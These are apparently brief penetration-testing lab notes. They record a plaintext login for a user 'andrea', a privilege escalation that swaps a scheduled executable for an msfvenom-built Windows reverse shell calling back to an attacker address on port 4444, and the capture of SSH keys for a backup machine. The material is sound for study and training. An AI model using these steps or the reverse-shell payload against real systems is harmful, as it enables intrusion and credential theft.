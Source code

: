 Got initial with andrea:PasswordPassword_6

pass which I got from .7

# priv esc

![[Pasted image 20240608030803.png]]

got this script on `C:\` and as it was executing `updatecollector.exe` made payload and place it there

```
msfvenom -p windows/x64/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.45.216 LPORT=4444 -f exe -o beyondupdater.exe
```

got shell

![[Pasted image 20240608024603.png]]

# post enum

found strange files in `/Documents` folder

![[Pasted image 20240608031058.png]]

Also got `sarah` SSH keys for **BACKUP** machine
